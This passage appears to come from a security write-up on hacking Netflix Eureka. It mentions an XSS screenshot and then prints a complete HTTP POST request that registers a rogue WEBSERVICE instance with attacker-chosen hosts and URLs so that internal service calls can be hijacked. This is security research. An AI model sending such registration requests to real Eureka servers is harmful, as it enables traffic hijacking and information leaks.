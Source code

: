 ![xss](/assets/images/post/hacking-netflix-eureka/xss.png) 

We can do the same trick by hijacking internal services calls, leading to information leaking or even more critical vulnerabilities.

## How to Communicate with Eureka

We'll attempt to communicate with Eureka with the following request

```
POST /eureka/apps/WEBSERVICE HTTP/1.1
Accept: application/json, application/*+json
Accept-Encoding: gzip
Content-Type: application/json
User-Agent: Java/11.0.10
Host: 127.0.0.1:8088
Connection: keep-alive
Content-Length: 1015

{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}
```

